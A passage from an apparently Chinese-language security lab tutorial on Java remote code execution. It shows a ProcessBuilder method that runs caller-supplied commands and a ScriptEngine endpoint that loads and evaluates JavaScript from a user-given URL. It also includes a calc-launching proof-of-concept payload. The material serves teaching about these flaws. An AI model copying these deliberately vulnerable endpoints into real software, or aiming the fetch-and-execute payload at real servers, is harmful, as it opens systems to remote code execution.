     	StringBuilder sb = new StringBuilder();
    
    	try {
    	   // String[] arrCmd = {"/bin/sh", "-c", cmd};  //linux
    		String[] arrCmd = {cmd};                 //windows,windos下无需指定
    		ProcessBuilder processBuilder = new ProcessBuilder(arrCmd);
    		Process p = processBuilder.start();
    		BufferedInputStream in = new BufferedInputStream(p.getInputStream());
    		BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
    		String tmpStr;
    
    		while ((tmpStr = inBr.readLine()) != null) {
    			sb.append(tmpStr);
    		}
    	} catch (Exception e) {
    		return e.toString();
    	}
    
    	return sb.toString();
    }
    

![图片.png](https://image.cubox.pro/article/2022103016293266058/17478.jpg)

## ScriptEngine命令执行(jscmd)

访问url为[http://localhost:8080/rce/jscmd?jsurl=http://localhost/exe.js](http://localhost:8080/rce/jscmd?jsurl=http://localhost/exe.js)，传入的参数为一个JavaScript代码的url地址[http://localhost/exe.js](http://localhost/exe.js)

    var a = mainOutput();
    function mainOutput() {
    var x=java.lang.Runtime.getRuntime().exec("calc");
    }
    

源码如下，使用的是**ScriptEngine**来对JavaScript代码的调用，最后eval()执行代码

    /**
     * http://localhost:8080/rce/jscmd?jsurl=http://xx.yy/zz.js
     *
     * curl http://xx.yy/zz.js
     * var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("open -a Calculator");}
     *
     * @param jsurl js url
     */
    @GetMapping("/jscmd")
    public void jsEngine(String jsurl) throws Exception{
    	// js nashorn javascript ecmascript
    	ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");
    	Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);//启动javascript引擎
    	String cmd = String.format("load(\"%s\")", jsurl);
    	engine.eval(cmd, bindings);
    }
    
